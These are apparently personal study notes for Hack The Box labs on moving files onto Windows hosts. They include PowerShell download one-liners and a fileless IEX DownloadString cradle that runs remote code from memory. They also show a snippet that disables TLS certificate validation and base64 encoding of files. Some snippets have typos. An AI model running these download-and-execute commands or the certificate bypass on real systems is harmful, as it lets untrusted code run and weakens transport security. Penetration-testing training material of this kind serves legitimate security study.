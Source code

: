 # file transfers (hack the box)

## windows file transfers

### File Download

#### Download File

```powershell
(New-Object Net.WebClient).DownloadFile('<url>','<dst>')
```

#### Download File (does not block calling thread)

```powershell
(New-Object Net.WebClient).DownloadFileAsync('<url','dst')
```

#### Fileless method (Execute from memory)

```powershell
IEX(New-Object Net.WebClient).DownloadString('<url'>)
```

```powershell
(New-Object Net.Webclient).DownloadString('<url'>) | Invoke-Expression
```

```powershell
Invoke-WebRequest <url> -Outfile <output file>
```

#### Common errors

- Internet Explorer not initialized (Invoke-WebRequest) use -UseBasicParsing
- TLS/SSL secure channel not established use:

```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationChallback = {$true}
```

### Base64 Encoding and Decoding

#### Encode String (Bash)

```bash 
cat <file> | base64 -w 0; echo
 ```

#### Encode String Powershell (older)

 ```powershell
 $filebytes = Get-Content -Path "<path to file>" -AsByteStream -Raw
 $base64string = [Convert]::ToBase64String($filebytes)
 ```
